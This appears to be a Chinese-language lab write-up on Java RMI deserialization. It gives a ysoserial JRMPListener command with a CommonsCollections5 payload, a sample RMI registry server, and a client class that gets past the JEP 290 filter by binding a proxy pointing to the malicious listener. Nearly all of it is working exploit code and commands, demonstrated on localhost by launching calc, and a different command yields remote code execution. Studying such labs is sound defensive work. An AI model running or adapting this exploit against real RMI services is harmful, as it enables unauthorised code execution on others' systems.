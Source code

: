 **使用ysoserial构造恶意服务端**

```bash
java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener 3333 CommonsCollections5 "calc"
```

**服务端代码**

```java
package rmi_injection_labs1.server;

import rmi_injection_labs1.service.LocalUser;
import rmi_injection_labs1.service.User;

import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class LocalUserServer {
    public static void main(String[] args) throws Exception {
        Registry registry = LocateRegistry.createRegistry(2222);
        User user = new LocalUser("Erosion", 25);
        registry.rebind("HelloRegistry", user);
        System.out.println("rmi start at 2222");
    }
}
```

**客户端代码**

```java
package rmi_injection_labs1.client;

import sun.rmi.server.UnicastRef;
import sun.rmi.transport.LiveRef;
import sun.rmi.transport.tcp.TCPEndpoint;

import java.lang.reflect.Proxy;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.rmi.server.ObjID;
import java.rmi.server.RemoteObjectInvocationHandler;
import java.util.Random;

public class JEP290AttackClientByYsoSerial {
    public static void main(String[] args) throws Exception {
        Registry reg = LocateRegistry.getRegistry("127.0.0.1",2222);
        ObjID id = new ObjID(new Random().nextInt()); // RMI registry
        TCPEndpoint te = new TCPEndpoint("127.0.0.1", 3333);
        UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
        RemoteObjectInvocationHandler obj = new RemoteObjectInvocationHandler(ref);
        Registry proxy = (Registry) Proxy.newProxyInstance(Client.class.getClassLoader(), new Class[] {
                Registry.class
        }, obj);
        reg.bind("Hello",proxy);
    }
}
```
